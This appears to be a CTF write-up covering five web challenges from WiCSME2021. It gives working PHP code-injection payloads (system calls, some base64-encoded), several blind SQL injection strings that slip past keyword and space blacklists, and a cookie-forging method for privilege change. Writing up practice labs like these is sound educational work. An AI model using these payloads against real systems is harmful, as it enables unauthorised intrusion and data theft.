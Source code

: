 # WiCSME2021 CTF

# web challenges:

## 1- SimPlay
![Screenshot at 2021-11-25 19-26-09](https://user-images.githubusercontent.com/52857059/143482771-46d1f5ad-c4c8-4667-882a-6d2c23525010.png)

After clicking the Try Again button :

![Screenshot at 2021-11-25 19-32-26](https://user-images.githubusercontent.com/52857059/143484789-d5764601-d715-4dda-87f6-225147275112.png)

I try php code injection ${system('ls')}

![Screenshot at 2021-11-25 19-35-36](https://user-images.githubusercontent.com/52857059/143484816-0131587c-3d6c-43f1-b947-5afac58b96ae.png)

It works But I can't find flag file.
let's try another payload with base64_decode function --> ${system(base64_decode(bHMgLi4v))}

![Screenshot at 2021-11-25 19-39-34](https://user-images.githubusercontent.com/52857059/143484886-c4cdb4ad-025d-46f2-85c7-57850b62bd3d.png)

I got flag name :")
next step , let's read flag file --> ${system(base64_decode(Y2F0IC4uL2ZsYWcq))}

![Screenshot at 2021-11-25 19-47-54](https://user-images.githubusercontent.com/52857059/143484917-bf996a6b-275b-4965-9982-0742345a348d.png)


## 2- Potent Quotes
![Screenshot at 2021-11-25 19-54-12](https://user-images.githubusercontent.com/52857059/143547317-5ee748d1-aab4-4f33-bc0e-8816ecadb6e9.png)

After downloading the files' challenge locally , I found query of input 

![Screenshot at 2021-11-26 09-53-45](https://user-images.githubusercontent.com/52857059/143547089-f06f8c4b-4749-4c33-9f31-9dc5a7249e64.png)

Let's try injecting pass input with ```html 1' or '1'='1 ```

![Screenshot at 2021-11-26 10-01-17](https://user-images.githubusercontent.com/52857059/143547148-b89b03d8-01be-44c9-97ef-8640261a8e0e.png)


## 3- INCEPTION(easy)

if we open 
```html
https://ch24.sbug.se/?src (getting ?src from page source)
```

![Screenshot at 2021-07-21 12-57-59](https://user-images.githubusercontent.com/52857059/126552622-c5f1a8db-a4ce-4e45-a9b5-3d0d2a742147.png)

```html
they are BlackList words replace them to space -->  preg_replace("/select|union|from|where/i", "", @$_GET["fname"]);
```
I thought it was sqli injection exactly blind sqli because when I injected input no error was appeared 

I bypassed these words in blacklist by wrote the same word again in the middle EX: (select ---> selselectect) 

I stared injecting with this payload , I guessed the part of column name 'pass' cause he said in description challenge (find the admin password) 

```html
1'+OR+(selselectect+sleep(10)+frofromm+dual+whewherere+(selselectect+table_name+frfromom information_schema.columns+whwhereere+table_schema=database()+and+column_name+like+'%pass%'+limit+0,1)+like+'%%')%23
```
By guessing &trying I got columns (passwd , uname , role), table (inception_users)

![Screenshot at 2021-07-21 13-01-52](https://user-images.githubusercontent.com/52857059/126554514-25f916b4-f110-4080-8e24-8baefc5f0677.png)

![Screenshot at 2021-07-21 13-02-48](https://user-images.githubusercontent.com/52857059/126554656-6954d967-9149-4d0d-a7ec-5b8d32f4b745.png)

now let's see what is in passwd column by this payload :

```html
1'+OR+(+SELselectECT+count(*)+frfromom+inception_users+whwhereere+role=+'admin'+AND+passwd+like+'%')%23
```
![Screenshot at 2021-07-21 13-05-22](https://user-images.githubusercontent.com/52857059/126555069-c55458f6-55ec-44b5-84b2-78ba3fe1aad4.png)

By guessing &trying I finally got the flag :"D
![Screenshot at 2021-07-21 13-06-03](https://user-images.githubusercontent.com/52857059/126555257-a0cbdc1e-f163-4621-8688-e77195d6e80d.png)

![Screenshot at 2021-07-21 22-53-19](https://user-images.githubusercontent.com/52857059/126559146-3d478da0-4f5a-499b-8063-efa46d01b2ba.png)

## 4- BLACKLIST(medium)

![Screenshot at 2021-07-21 15-13-53](https://user-images.githubusercontent.com/52857059/126556113-44fabb06-437f-47ce-b03d-f7244d7590e9.png)

It was the same - inception challenge - But the blacklist was space , i tried (/**/) as space but it was faild .

finally i found (/* _ */) worked as a space without waf caught it :D 
the same mechanism again ...

![Screenshot at 2021-07-21 15-15-04](https://user-images.githubusercontent.com/52857059/126556433-9d813bfc-f7ab-4658-992a-8c9c74f92d16.png)

By guessing &trying I got column (flag), table (blacklist_users)

now let's see what is in flag column by this payload :
```html
1'/*_*/or/*_*/(select/*_*/sleep(10)/*_*/from/*_*/dual/*_*/where/*_*/(select/*_*/flag/*_*/from/*_*/blacklist_users)/*_*/like/*_*/'%')%23
```
By guessing &trying I finally got the flag :"D

![Screenshot at 2021-07-21 15-14-22](https://user-images.githubusercontent.com/52857059/126556925-a5f3f320-25a5-4161-b90a-a288d977200f.png)

## 5- BUY THE FLAG(easy)

this challenge depend on decreption let's see it .
![Screenshot at 2021-07-21 22-41-03](https://user-images.githubusercontent.com/52857059/126557249-e4722ab1-47e7-48fa-ad35-6a9f4eb9d8e9.png)

With a little care we notice that by changing the cookie it returns to the original value so it is sensitive to cookies according to the cookie
```html
Cookie:3054505242564F465A55567A59456257644662475647644B5A56597759466255426A57735A315431305756584A6C566A746B567759565531736D5956683261546C58557849474E78306D56
```
then by unhexing and reversing and decoding base64 5 times , we will get 
```html
User_is_=Fread
```
now we have to change value to Us3r & encrept User_is_=Us3r hexing & reversing and encoding base64 5 times
after that u will get the flag 

![Screenshot at 2021-07-21 16-20-32](https://user-images.githubusercontent.com/52857059/126558141-f3f012a4-3f41-4d53-9791-f88a2961025d.png)


